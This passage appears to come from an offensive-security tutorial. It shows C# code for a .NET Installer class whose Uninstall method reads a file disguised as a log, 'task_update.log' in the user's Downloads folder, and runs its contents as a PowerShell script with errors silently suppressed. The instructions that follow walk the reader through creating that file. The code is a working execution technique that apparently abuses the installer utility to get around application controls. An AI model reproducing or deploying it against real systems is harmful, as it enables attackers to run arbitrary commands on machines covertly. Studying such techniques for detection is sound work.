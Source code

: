 ```C#
[System.ComponentModel.RunInstaller(true)]
public class CustomInstaller : Installer
{
    public override void Uninstall(System.Collections.IDictionary savedState)
    {
        PowerShellExecutor.ExecuteScript();
    }
}

public class PowerShellExecutor
{
    public static void ExecuteScript()
    {
        try
        {
            string downloadsPath = Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.UserProfile), "Downloads");
            string scriptFile = Path.Combine(downloadsPath, "task_update.log");
            
            if (File.Exists(scriptFile))
            {
                string command = File.ReadAllText(scriptFile);
                using (Runspace runspace = RunspaceFactory.CreateRunspace(InitialSessionState.CreateDefault()))
                {
                    runspace.Open();
                    using (Pipeline pipeline = runspace.CreatePipeline())
                    {
                        pipeline.Commands.AddScript(command);
                        pipeline.Invoke();
                    }
                }
            }
        }
        catch
        {
           
        }
    }
}
```
Once exec.cs has downloaded navigate to the Downloads folder and create a file called **task_update.log**. 

The below image demonstrates the file **task_update.log** being created in the Downloads directory. 